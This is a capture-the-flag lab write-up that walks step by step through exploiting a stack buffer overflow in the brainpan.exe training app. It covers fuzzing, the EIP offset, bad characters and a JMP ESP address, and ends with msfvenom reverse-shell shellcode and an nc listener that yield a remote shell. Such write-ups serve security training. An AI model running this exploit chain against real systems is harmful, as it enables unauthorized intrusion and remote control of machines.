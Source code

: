 # brainpan.exe - Buffer Overflow Prep - TryHackMe

Writeup for the **brainpan.exe** app available in the [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep) room from [TryHackMe](https://tryhackme.com/).

Steps for exploiting the **brainpan.exe** application:
1. Know your app
2. Fuzz
3. Find EIP offset
4. Test for bad chars
5. Exploit!

Set up
* Attacker: Kali Linux, IP 192.179.80.177
* Target: Windows 7 VM, IP 192.168.90.136
  * [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
  * [mona.py](https://github.com/corelan/mona)

## 1. Know your app

Interact with the app and take note of the expected input.
```
nc -nv 192.168.90.136
```

![1](imgs/brainpan-writeup1.png?raw=true)
...
![2](imgs/brainpan-writeup2.png?raw=true)


## 2. Fuzz

Fuzz the application to test for buffer overflow. You can use [SPIKE](https://resources.infosecinstitute.com/topic/intro-to-fuzzing/) (generic_send_tcp), a tool already available at most Kali Linux installs, or your own script.

In this case, I used a somewhat generic script I created for fuzzing TCP applications: [sock-stream-fuzz.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Run the application in Immunity Debugger and execute the fuzzer:
```
./sock-stream-fuzz.py --rhost=192.168.90.136 --rport=9999 -f --buffstep=200
```
![3](imgs/brainpan-writeup3.png?raw=true)

Application crashed with 600 bytes!

We can see in the debugger that the EIP registry was overwriten:

![4](imgs/brainpan-writeup4.png?raw=true)


Testing the application with a buffer head, we can see that we were also able to write to memory positions pointed by EDX and ESP. 
```
./ig-buffer-overflow.py -m test --rhost=192.168.90.136 --rport=9999 --buffsize=1000 --buffhead='HELLO '
```
![5](imgs/brainpan-writeup5.png?raw=true)


## 3. Find EIP offset

To find the EIP offset, send a cyclic pattern to the application (the value writen in EIP will be checked against the pattern and the offset will be found).

For this and the next steps I will be using a custom script I created: [ig-buffer-overflow.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Re-run the application in the debugger and send the cyclic string:
```
./ig-buffer-overflow.py -m cyclic --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead=''
```
![6](imgs/brainpan-writeup6.png?raw=true)


Check offset:
```
./ig-buffer-overflow.py -m checkoffset --value=35724134 --length=600
Offset for length 600: 524
```

## 4. Test for bad chars

Write bad chars to find out which chars we have to exclude from our exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead='' --offset=524 --hexcontent=BBBBBBBB --before=badchar --exclude=00 --nopsb=2
```
![7](imgs/brainpan-writeup7.png?raw=true)

```
!mona config -set workingfolder c:\temp
!mona bytearray
!mona compare -f c:\temp\bytearray.bin -a 005FF80B
```
![8](imgs/brainpan-writeup8.png?raw=true)

## 5. Find JMP instruction
```
!mona jmp -n -r ESP
```

![9](imgs/brainpan-writeup9.png?raw=true)

JMP ESP address = 0x311712f3

Set breakpoint at 0x311712f3 and test it writing even more bytes to the application (the following command also adds some nops before and after write content):
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=BBBB --nopsa=4 --before=CCCC --nopsb=10
```
![10](imgs/brainpan-writeup10.png?raw=true)


## 6. Exploit!

Generate shellcode:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=192.168.80.177 LPORT=443 -f hex EXITFUNC=thread -o reverse
```

Set up handler:
```
sudo rlwrap -a nc -lvnp 443
```

Exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=shellcode --nopsa=10 --shellcode=reverse
```

Got the shell!!

![11](imgs/brainpan-writeup11.png?raw=true)


THE END!

#walkthrough #writeup #brainpan
